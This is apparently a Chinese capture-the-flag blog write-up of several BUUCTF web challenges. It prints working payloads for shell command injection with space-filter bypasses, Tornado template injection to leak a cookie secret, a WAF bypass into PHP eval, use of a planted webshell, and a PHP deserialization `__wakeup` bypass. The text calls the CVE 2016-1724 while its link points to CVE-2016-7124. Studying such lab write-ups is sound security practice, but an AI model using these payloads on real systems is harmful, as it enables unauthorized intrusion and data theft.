# BUUCTF web记录 2


## 0x08 [GXYCTF2019]Ping Ping Ping

[题目链接](https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping)

相关知识点：

- Linux命令执行注入
- `$IFS$9`绕过空格过滤

输入`?ip=127.0.0.1;cat$IFS$9index.php`查看index.php内容。

使用`$IFS$9`绕过空格，输入以下内容，将`ls`的结果作为`cat`命令的参数，查看`flag.php`和`index.php`内容。

```
?ip=127.0.0.1;cat$IFS$9`ls`
```

注意网页上没有直接显示flag，flag藏在注释里。



参考链接：

- [https://ctf.ieki.xyz/buuoj/gxyctf-2019.html](https://ctf.ieki.xyz/buuoj/gxyctf-2019.html)
- [https://www.cnblogs.com/eshizhan/archive/2011/11/30/2269325.html](https://www.cnblogs.com/eshizhan/archive/2011/11/30/2269325.html)

## 0x09 [ACTF2020 新生赛]Exec

[题目链接](https://buuoj.cn/challenges#[ACTF2020%20%E6%96%B0%E7%94%9F%E8%B5%9B]Exec)

同样是命令注入

这题更加简单。首先输入`127.0.0.1;ls`看一下有什么文件。



然后查看index.php文件内容。因为如果直接`cat index.php`的话，会被浏览器解释并执行，所以无法看到文件原本的内容。于是，可以在外面包上一层html注释。

```
127.0.0.1;echo '<!--'`cat index.php`'-->'
```

查看网页源代码，可以获得index.php文件的内容。

```php
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>command execution</title>
    <link
      href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css"
      rel="stylesheet"
    />
  </head>
  <body>
    <h1>PING</h1>
    <form class="form-inline" method="post">
      <div class="input-group">
        <input
          style="width: 280px"
          id="target"
          type="text"
          class="form-control"
          placeholder="请输入需要ping的地址"
          aria-describedby="basic-addon1"
          name="target"
        />
      </div>
      <br />
      <br />
      <button style="width: 280px" class="btn btn-default">PING</button>
    </form>
    <br />
    <pre>
        <?php
        if (isset($_POST['target'])) {
            system("ping -c 3 " . $_POST['target']);
        }
        ?>
	</pre>
  </body>
</html>

```

显然，网页对于用户的输入没有做出任何过滤。于是我们用find工具找出flag的位置(`/flag`)并且直接显示即可。

```sh
127.0.0.1;find / -name flag*
/*
....
...
/flag
*/
cat /flag
```

ps：这是第一个我没看任何wp自己写出的web题😭，不容易啊

## 0x10 [极客大挑战 2019]Knife

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Knife)

网页标题直接告诉你这是白给的shell，再看到eval一句话木马，就明白这是webshell。



用蚁剑直接输入网页地址和密码`Syc`尝试连接，虽然终端里`find / -name flag`没有找到结果，但是在图形界面里发现根目录下存在flag文件，直接白给。不过奇怪的是为什么命令行find没有找到？



## 0x11 [护网杯 2018]easy_tornado

[题目链接](https://buuoj.cn/challenges#[%E6%8A%A4%E7%BD%91%E6%9D%AF%202018]easy_tornado)

[tornado](https://www.tornadoweb.org/en/stable/)是一个Python编写的异步后端框架，这题既然是这个名字，那么肯定与tornado的某些特性相关。

接下来看题，网页给出了三个链接，分别是`/flag.txt`/`/welcome.txt`/`/hints.txt`。

查看`flag.txt`，知道了flag内容在`/fllllllllllllag`里。

再查看`hints.txt`，以及结合访问时的网址可以知道，服务端在接收到访问文件请求时，会以如下方式计算哈希校验值，与请求中的哈希值参数一致才能访问。那么问题就只剩下找出这个`cookie_secret`了。



注意到直接访问flag文件时，页面显示Error并且网址中的msg参数也是Error，所以这题应该是通过`SSTI(服务端模板注入)`攻击来获取`cookie_secret`。


查阅资料可知，`handler.settings`对象中包含有`cookie_secret`值。所以，直接访问`error?msg={{handler.settings}}`。



然后将`/fllllllllllllag`代入，计算

```
md5(cookie_secret+md5('/fllllllllllllag'))
```

填入到链接中访问即可




参考链接：

- [https://blog.csdn.net/zz_Caleb/article/details/101473013](https://blog.csdn.net/zz_Caleb/article/details/101473013)
- [https://blog.csdn.net/zz_Caleb/article/details/96480967](https://blog.csdn.net/zz_Caleb/article/details/96480967)

- [https://www.tornadoweb.org/en/latest/guide/templates.html#template-syntax](https://www.tornadoweb.org/en/latest/guide/templates.html#template-syntax)

## 0x12 [RoarCTF 2019]Easy Cal

[题目链接](https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Calc)

知识点：

- php的`eval()`函数，将参数作为php命令执行
- 空格绕过某些waf
- php的`var_dump()`/`scandir()`/`file_get_contents()`相关函数

计算器功能是通过向`calc.php`发起请求来实现的。



查看`calc.php`内容

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

在num参数前加上一个空格，可以绕过服务端的waf，并且使得php正确解析。

使用`scandir()`函数查找flag文件，发现`f1agg`（注意这里是1）。



查看flag内容。



参考链接：

- [BUUCTF WEB [RoarCTF 2019]Easy Calc](https://blog.csdn.net/qq_42967398/article/details/103512717)

- [http走私攻击](https://i.blackhat.com/USA-19/Wednesday/us-19-Kettle-HTTP-Desync-Attacks-Smashing-Into-The-Cell-Next-Door-wp.pdf)

## 0x13 [极客大挑战 2019]Http

## 0x14 [极客大挑战 2019]PHP

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]PHP)

知识点：

- php序列化`serialize()`与反序列化`unserialize()`
- php魔术方法（类似于钩子函数的概念），比如`__wakeup()`等
- 网站目录扫描工具与使用
- [CVE-2016-1724 ](https://nvd.nist.gov/vuln/detail/CVE-2016-7124) 反序列化时绕过`__wakeup()`方法



网页什么也没给，但是告诉你有网站备份，所以要想到**网站目录扫描**。

首先使用dirsearch或者hackbar或者其他工具，扫描网站，得到备份文件`/www.zip`（然而我实际使用并没有扫出来，不知道哪里出了问题...）

解压，可以得到以下文件



分析`index.php`可知，网页获取`select`参数，并将其反序列化。

再查看`class.php`

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
        }
    }
}
?>
```

发现`class.php`中的类析构函数`__destruct()`中的一个逻辑能够显示flag。于是整体思路就比较清楚了：`index.php`在获取`select`参数之后将其反序列化，获得一个Name对象，该对象最后会被销毁。只要对象在被销毁时，其`__destruct()`函数执行过程中判断`username`和`password`分别为`"admin"`和`100`即可在页面显示flag。

接下来就是php序列化和反序列化的知识。

首先序列化一个username和password符合要求的对象，其结果为

```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

`"Nameusername"`字符串的长度为12，但是结果却显示的14。这是因为`username`属性为`private`，`private`类型的成员变量在序列化时，变量名中会加上类名和两个不可见字符(`\0`)，因此`password`也同理。

所以，我们发送的请求中的`select`参数应为(`%00`表示不可见字符)

```
O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

然而`class.php`中有一个魔术方法`__wakeup()`，它将`username`变量赋值为`"guest"`，使得无法通过之后显示flag的判断逻辑。一般情况下，它会在反序列化函数`unserialize()`构造完对象之后执行。

> 若被反序列化的变量是一个对象，在成功地重新构造对象之后，PHP 会自动地试图去调用 [__wakeup()](https://www.php.net/manual/zh/language.oop5.magic.php#object.wakeup) 成员函数（如果存在的话）。																				

所以，需要想办法绕过`__wakeup()`函数。这就是CVE-2016-1724的内容。

当被反序列化的字符串中的属性个数大于对象本身的属性个数时，`__wakeup()`函数会被绕过不被执行。

所以，最终我们需要执行的请求参数为

```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```



- [https://www.shuzhiduo.com/A/KE5QrVD4dL/](https://www.shuzhiduo.com/A/KE5QrVD4dL/)
- [https://www.cnblogs.com/wangtanzhi/p/12193930.html](https://www.cnblogs.com/wangtanzhi/p/12193930.html)

- [php反序列化函数](https://www.php.net/manual/zh/function.unserialize.php)


